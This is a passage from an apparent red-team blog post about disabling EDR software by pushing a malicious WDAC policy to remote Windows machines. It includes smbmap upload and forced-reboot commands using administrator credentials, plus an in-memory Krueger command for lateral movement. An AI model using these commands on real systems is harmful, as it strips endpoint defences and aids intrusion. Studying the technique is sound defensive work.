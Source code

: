 ### Remote Machine
Remote deployment, although very similar to deployment on a local machine, has one slight difference: the movement of the WDAC policy and rebooting occurs remotely. This may occur through a variety of means, but the most convenient way is via Windows built-in SMB shares. Thankfully, because the only action to implement the WDAC configuration is moving the policy into the CodeIntegrity folder, this can be done with administrative privileges through the built in `C$` or `ADMIN$` shares. 

Below is a simple example of uploading the policy directly from a Linux machine.

```
smbmap -u Administrator -p P@ssw0rd -H 192.168.4.4 --upload "/home/kali/SiPolicy.p7b" "ADMIN\$/System32/CodeIntegrity/SiPolicy.p7b"
```

![alt text](/assets/img/weaponizing-wdac-killing-the-dreams-of-edr/smbmap-upload.png)

After placing the WDAC policy in the correct place, reboot the machine:

```
smbmap -u Administrator -p P@ssw0rd -H 192.168.4.4 -x "shutdown /r /t 0"
```

![alt text](/assets/img/weaponizing-wdac-killing-the-dreams-of-edr/smbmap-reboot.png)

Additionally a purpose-built tool has been created to carry out this attack. [**Krueger**](https://github.com/logangoins/Krueger) is a custom tool written in C# by [Logan Goins](https://x.com/_logangoins) specifically meant to be run in memory as part of post-exploitation lateral movement activities. The example below uses `inlineExecute-Assembly` (created by [@anthemtotheego](https://x.com/anthemtotheego)) to execute the .NET assembly in memory.

```
inlineExecute-Assembly --dotnetassembly C:\Tools\Krueger.exe --assemblyargs --host ms01
```

![alt text](/assets/img/weaponizing-wdac-killing-the-dreams-of-edr/krueger-running.png)
